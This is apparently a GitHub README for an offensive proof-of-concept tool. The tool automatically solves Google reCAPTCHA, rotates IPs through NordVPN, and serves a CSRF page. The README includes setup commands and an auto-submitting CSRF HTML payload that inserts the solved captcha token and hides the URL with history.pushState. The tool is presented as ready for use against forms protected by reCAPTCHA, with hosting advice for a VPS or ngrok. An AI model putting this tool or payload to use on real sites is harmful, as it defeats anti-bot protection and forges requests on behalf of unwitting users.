

# Google Recaptcha CSRF POC

> [!NOTE]
> This is a CSRF proof of concept in senarios where google recaptcha is protecting the form.



## Features
- Ready-to-solve Google Recaptcha when you have an XSS or whatever behind a post request.
- IP rotation using nordvpn.
- Can be hosted locally or on a VPS.


## Installation
First, create and activate a Python virtual environment, then install dependencies:
```bash
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```

You also need to install ffmpeg. You can download it from [here](https://ffmpeg.org/download.html).
```bash
sudo apt-get install ffmpeg
```

## Usage

```bash
usage: server.py [-h] [--no-nordvpn] --captcha-url CAPTCHA_URL

options:
  -h, --help            show this help message and exit
  --no-nordvpn          Disable NordVPN
  --captcha-url CAPTCHA_URL
                        URL of the page with reCAPTCHA to solve
```

Before running the server, update the `HTML_CSRF_POC` variable in `server.py` with your own CSRF HTML payload.
Make sure the `g-recaptcha-response` value uses the `{captcha}` placeholder.
```html
HTML_CSRF_POC = """
<html>
  <body>
    <form action="https://recaptcha-demo.appspot.com/recaptcha-v2-checkbox.php" method="POST">
      <input type="hidden" name="ex&#45;a" value="foo" />
      <input type="hidden" name="ex&#45;b" value="bar" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="{captcha}" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
"""
```

Then run the server like that (this will also use nordvpn to rotate ip when recaptcha failed to be solved)

```bash
python3 server.py --captcha-url https://recaptcha-demo.appspot.com/recaptcha-v2-checkbox.php
```

If you want to ignore nordvpn add `--no-nordvpn` as an argument
```bash
python3 server.py --no-nordvpn --captcha-url https://recaptcha-demo.appspot.com/recaptcha-v2-checkbox.php
```
The CSRF PoC is available at : [http://127.0.0.1:3333/poc.html](http://127.0.0.1:3333/poc.html)

You can run the server on a VPS or expose it locally using ngrok:
```bash
ngrok http 3333
```


> [!TIP]
>
> **For better reliability, it is recommended to run Chromium in non-headless mode.**
